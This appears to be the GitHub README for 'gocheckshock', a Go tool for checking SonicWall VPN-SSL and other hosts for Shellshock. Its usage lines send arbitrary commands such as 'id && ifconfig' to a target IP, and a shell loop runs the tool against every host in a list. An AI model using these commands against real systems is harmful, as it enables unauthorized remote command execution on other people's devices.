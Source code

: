 # gocheckshock
SonicWall VPN-SSL Exploit Checker* using Golang ( * and other targets vulnerable to shellshock ).

# Install
```
▶ go get -u -v github.com/gustavorobertux/gocheckshock
```
# Basic Usage
### oneliner
```
▶ for i in $(cat list.txt) ; do echo $i | xargs ./gocheckshock -i ; done
```
### Simple command - Default -c echo
```
▶ ./gocheckshock -i x.x.x.x
```
### With commands
```
▶ ./gocheckshock -i x.x.x.x -c id
▶ ./gocheckshock -i x.x.x.x -c 'id && ifconfig'
```
# Screenshot
<p align="center"><img src="https://github.com/gustavorobertux/gocheckshock/blob/main/goshock_checker.png" width="70%"></p>
